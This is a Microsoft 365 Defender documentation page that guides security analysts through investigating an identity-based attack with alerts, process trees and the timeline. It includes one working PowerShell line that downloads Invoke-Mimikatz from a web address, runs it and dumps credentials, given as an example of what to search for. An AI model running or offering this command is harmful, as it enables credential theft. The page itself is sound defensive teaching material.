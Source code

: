 = Example of an identity-based attack
:audience: ITPro
:author: dansimp
:description: Step through an example analysis of an identity-based attack.
:f1.keywords: ["NOCSH"]
:keywords: incidents, alerts, investigate, correlation, attack, machines, devices, users, identities, identity, mailbox, email, 365, microsoft, m365, incident response, cyber-attack
:manager: dansimp
:ms.author: dansimp
:ms.collection: ["M365-security-compliance", "m365solution-firstincident", "highpri"]
:ms.localizationpriority: medium
:ms.mktglfcycl: deploy
:ms.pagetype: security
:ms.service: microsoft-365-security
:ms.sitesec: library
:ms.subservice: m365d
:ms.topic: conceptual
:search.appverid: ["MOE150", "MET150"]
:search.product: eADQiWindows 10XVcnh

== Example of an identity-based attack

[!INCLUDE xref:../includes/microsoft-defender.adoc[Microsoft 365 Defender rebranding]]

*Applies to:*

* Microsoft 365 Defender

Microsoft Defender for Identity can help detect malicious attempts to compromise identities in your organization.
Because Defender for Identity integrates with Microsoft 365 Defender, security analysts can have visibility on threats coming in from Defender for Identity, such as suspected Netlogon privilege elevation attempts.

=== Analyzing the attack in Microsoft Defender for Identity

Microsoft 365 Defender allows analysts to filter alerts by detection source on the *Alerts* tab of the incidents page.
In the following example, the detection source is filtered to *Defender for Identity*.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Filtering the detection source in Microsoft Defender for Identity" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

Selecting the *Suspected overpass-the-hash attack* alert goes to a page in Microsoft Defender for Cloud Apps that displays more detailed information.
You can always find out more about an alert or attack by selecting *Learn more about this alert type* to read a link:/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002[description of the attack] and remediation suggestions.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="A suspected overpass-the-hash attack alert" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png":::

=== Investigating the same attack in Microsoft Defender for Endpoint

Alternatively, an analyst can use Defender for Endpoint to learn more about the activity on an endpoint.
Select the incident from the incident queue, then select the *Alerts* tab.
From here, they can identify the detection source as well.
A detection source labeled as EDR stands for Endpoint Detection and Response, which is Defender for Endpoint.
From here, the analyst selects an alert detected by EDR.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="An Endpoint Detection and Response in the Microsoft Defender for Endpoint portal" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png":::

The alert page displays various pertinent information such as the impacted device name, username, status of auto-investigation, and the alert details.
The alert story depicts a visual representation of the process tree.
The process tree is a hierarchical representation of parent and child processes related to the alert.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="An alert process tree in the Microsoft Defender for Endpoint" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png":::

Each process can be expanded to view more details.
Details that an analyst can see are the actual commands that were entered as part of a malicious script, outbound connection IP addresses, and other useful information.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="The process details in the Microsoft Defender for Endpoint portal" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::

By selecting *See in timeline*, an analyst can drill down even further to determine the exact time of the compromise.

Microsoft Defender for Endpoint can detect many malicious files and scripts.
However, due to many legitimate uses for outbound connections, PowerShell, and command-line activity, some activity would be considered benign until it creates a malicious file or activity.
Therefore, using the timeline helps analysts to put the alert into context with the surrounding activity to determine the original source or time of the attack that otherwise is obscured by common file system and user activity.

To use the timeline, an analyst would start at the time of the alert detection (in red) and scroll down backwards in time to determine when the original activity that led to the malicious activity actually started.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Analyst's start time for the alert detection" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png":::

It is important to understand and distinguish common activity such as Windows Update connections, Windows Trusted Software activation traffic, other common connections to Microsoft sites, third-party Internet activity, Microsoft Endpoint Configuration Manager activity, and other benign activity from suspicious activity.
One way to distinguish is by using timeline filters.
There are many filters that can highlight specific activity while filtering out anything that the analyst does not want to view.

In the image below, the analyst filtered to view only network and process events.
This filter criteria allows the analyst to see the network connections and processes surrounding the event where Notepad established a connection with an IP address, which we also saw in the process tree.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="How Notepad was used to make a malicious outbound connection" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png":::

In this particular event, Notepad was used to make a malicious outbound connection.
However, often attackers will use iexplorer.exe to establish connections to download a malicious payload because ordinarily iexplorer.exe processes are considered regular web browser activity.

Another item to look for in the timeline would be PowerShell uses for outbound connections.
The analyst would look for successful PowerShell connections with commands such as `IEX (New-Object Net.Webclient)` followed by an outbound connection to a website hosting a malicious file.

In the following example, PowerShell was used to download and execute Mimikatz from a website:

[,powershell]
----
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
----

An analyst can quickly search for keywords by typing in the keyword in the search bar to display only events created with PowerShell.

=== Next step

See the xref:first-incident-path-phishing.adoc[phishing] investigation path.

=== See also

* xref:incidents-overview.adoc[Incidents overview]
* xref:manage-incidents.adoc[Manage incidents]
* xref:investigate-incidents.adoc[Investigate incidents]
